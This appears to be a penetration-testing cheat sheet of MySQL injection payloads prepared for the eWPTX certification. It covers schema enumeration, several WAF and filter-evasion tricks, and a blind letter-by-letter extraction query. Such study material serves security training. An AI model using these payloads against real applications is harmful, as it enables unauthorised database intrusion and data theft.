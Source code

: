 # eWPTX
List of useful commands for web penetration testing and eWPTX certification

## SQLi

### MySQL

**List database name**

`
SELECT DATABASE();-- -
`

**List the table of a specific database**

`
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = '';-- -
`

**List the table of a specific database with limit and offset**

`
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = '' LIMIT 1 OFFSET N;-- -
`

**List the columns of a specific table and database**

`
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = '' AND table_name = '';-- -
`

**List the nth column of a specific table**

`
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = '' AND table_name = '' AND ORDINAL_POSITION = N;-- -
`

**Concat query elements when spaces are not allowed**

`
SELECT/**/DATABASE();-- -
`

**Concat query elements when spaces AND comments are not allowed***

`
(SELECT(group_concat(table_name))FROM(INFORMATION_SCHEMA.tables)WHERE(table_schema=database()));-- -
`

**Basic camel case filter evasion**

`
SeLEcT gROup_cOnCaT(TabLE_NamE) FroM InfOrmaTioN_SchEma.TabLeS WhERe tABle_scHEmA =lower('');-- -
`

**Basic evasion if WHERE statement is not allowed**
`
SELECT * FROM GROUP BY HAVING ID=1;-- -
`

**Filter evasion where SQL keywords are not allowed**
`
sZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLt tZEROFILLaZEROFILLbZEROFILLlZEROFILLe_nZEROFILLaZEROFILLmZEROFILLe fZEROFILLrZEROFILLoZEROFILLm iZEROFILLnZEROFILLfZEROFILLoZEROFILLrZEROFILLmZEROFILLaZEROFILLtZEROFILLiZEROFILLoZEROFILLn_sZEROFILLcZEROFILLhZEROFILLeZEROFILLmZEROFILLa.tZEROFILLaZEROFILLbZEROFILLlZEROFILLeZEROFILLs wZEROFILLhZEROFILLeZEROFILLrZEROFILLe tZEROFILLaZEROFILLbZEROFILLlZEROFILLe_sZEROFILLcZEROFILLhZEROFILLeZEROFILLmZEROFILLa = '';-- -
`

**Letter by letter database enumeration**
`
a' RLIKE (SELECT (
	CASE WHEN(
		ORD( /* string to ASCII conversion /*
			SUBSTRING( /* string, starting index, ending index */
			(
				SELECT IFNULL(CAST(table_name AS NCHAR),0x20)
				FROM INFORMATION_SCHEMA.TABLES
				WHERE table_schema=0x696e666f726d6174696f6e5f736368656d61 LIMIT 2,1
			)
		,11,1)
	)>64 /* check if the ASCII value of a specified letter is bigger than a specified value */
)
THEN 0x61 ELSE 0x28 END))
`

**Other tips**
* Encode query in base64
* Double-encode query in base64
* Use HEX conversion 
